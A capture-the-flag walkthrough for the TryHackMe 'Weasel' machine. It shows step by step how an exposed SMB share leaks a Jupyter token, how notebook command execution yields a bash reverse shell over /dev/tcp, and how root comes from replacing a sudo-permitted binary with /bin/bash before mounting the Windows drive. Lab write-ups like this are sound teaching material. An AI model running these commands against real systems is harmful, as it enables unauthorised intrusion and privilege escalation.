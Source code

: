 # Weasel

Link : [Weasel](https://tryhackme.com/room/weasel)

## High-Level Overview

This machine is used by a data science team for their project developments.

## Tools Needed

* Nmap
* Smbmap
* Nc
* Bash

## Walkthrough

After starting the machine, we proceed to do an initial scan using `nmap`:

```bash
$ sudo nmap -sS -A -Pn -vv MACHINE:IP
```

We found the following ports open and services running:

* 22 - ssh
* 135 - Microsoft Windows RPC
* 139 - Microsoft Windows netbios-ssn
* 445 - Possible microsoft-ds
* 3389 - Microsoft Terminal services - ms-wbt-server
* 8888 - http - Jupyter Notebook

The `Nmap` scan reveals that there is a jupyter notebook running on port 8888. There is a `http-robots.txt` file that disallows 1 entry which is `/`. If we type `http://MACHINE:IP:8888/` into the browser, it resolves itself into the page `http://MACHINE:IP:8888/login?next=%2Ftree%3F`. Access is permitted remotely, but we need to supply a token or password to go any further.

We will further investigate the host using `smbmap` by running the command:

```bash
$ smbmap -H MACHINE:IP -u guest
```

We can find 4 disk entries: `ADMIN$`, `C$`, `datasci-team`, `IPC$`. The `datasci-team` entry has read and write permissions so we will see if we can get access to it by typing the command:

```bash
$ smbclient -U guest //MACHINE:IP/datasci-team
```

A prompt will be asking us to supply a password, however there doesn't seem to be one so we can just press enter. Now we have access to the share.

There are a lot of items, notably a `misc` folder that contains a file `jupyter-token.txt`. We need to download it on our attacking machine by running the command below:

```bash
> get jupyter-token.txt
```

We can use this token to open the Jupyter Notebook instance in this browser. From here, we can start a new `Python` notebook and try to gather more information. We can issue commands such by typing them in code blocks and then pressing `Run`:

```bash
!whoami
# output for the command will be shown as: dev-datasci
```

We will use this functionality to get a reverse shell. On the attacker machine, open a `nc` listener using the command:

```bash
$ nc -lvnp 8888
```

In the Python notebook, type the command and then hit `Run`

```bash
$ !/bin/bash -c 'bash -i >& /dev/tcp/MACHINE:IP/8888 0>&1'
```

And now we have a reverse shell! Seems like this machine is actually a WSL running from a Windows host. We can confirm with the command `cat /etc/wsl.conf`. There are no flags on this machine, so we need to find a way to escalate privileges and break into the actual Windows machine.

Going to the home folder of our currently logged in user using `cd ~`. Here we can find a file named `dev-datasci-lowpriv_id_ed25519`. It contains an OPENSSH private key.

Trying to find a way to escalate privileges, We can list the privileges for the current user using `sudo -l`. It seems we have `sudo` privileges over `/home/dev-datasci/.local/bin/jupyter`. However, running it as sudo using the command below, tells us this command doesn't exist.


```bash
$ sudo /home/dev-datasci/.local/bin/jupyter
```

We can try replacing this command with `/bin/bash` like shown below:

```bash
$ cp /bin/bash /home/dev-datasci/.local/bin/jupyter
```

After doing so, we can try to run the command using sudo to see if we can get root:

```bash
$ sudo /home/dev-datasci/.local/bin/jupyter
```

As root, we can mount the `C:` drive from our Windows host on this WSL environment using the command:

```bash
$ sudo mount -t drvfs C: /mnt/c
```

Going into `/mnt/c`, we find the contents of the `C` drive accessible. The user flag can be found in the `Desktop` folder of the user `dev-datasci-lowpriv`. The root flag is found in the `Desktop` folder of the `Administrator` user.